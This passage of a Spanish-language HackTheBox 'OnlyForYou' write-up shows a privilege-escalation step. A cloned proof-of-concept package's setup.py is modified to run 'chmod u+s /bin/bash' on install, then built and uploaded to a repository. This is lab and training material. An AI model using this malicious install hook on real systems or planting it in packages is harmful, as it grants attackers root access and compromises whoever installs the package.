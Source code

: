 En este [artículo](https://embracethered.com/blog/posts/2022/python-package-manager-install-and-download-vulnerability/) explican como es posible abusar de ```pip download```. Clono el repositorio del POC

```null
git clone https://github.com/wunderwuzzi23/this_is_fine_wuzzi
```

Modifico el ```setup.py``` para que el asigne el priveligo ```SUID``` a la ```bash```

```null
import os

def RunCommand():
    print("Hello, p0wnd!")
    os.system("chmod u+s /bin/bash")
```

Construyo el paquete

```null
python3 -m build
```

El comprimido se encuentra dentro de la ruta ```dist```, que posteriormente añado en el repositorio ```Test```. Modifico las propiedades para que sea público

<img src="/writeups/assets/img/OnlyForYou-htb/11.png" alt="">

<img src="/writeups/assets/img/OnlyForYou-htb/12.png" alt="">
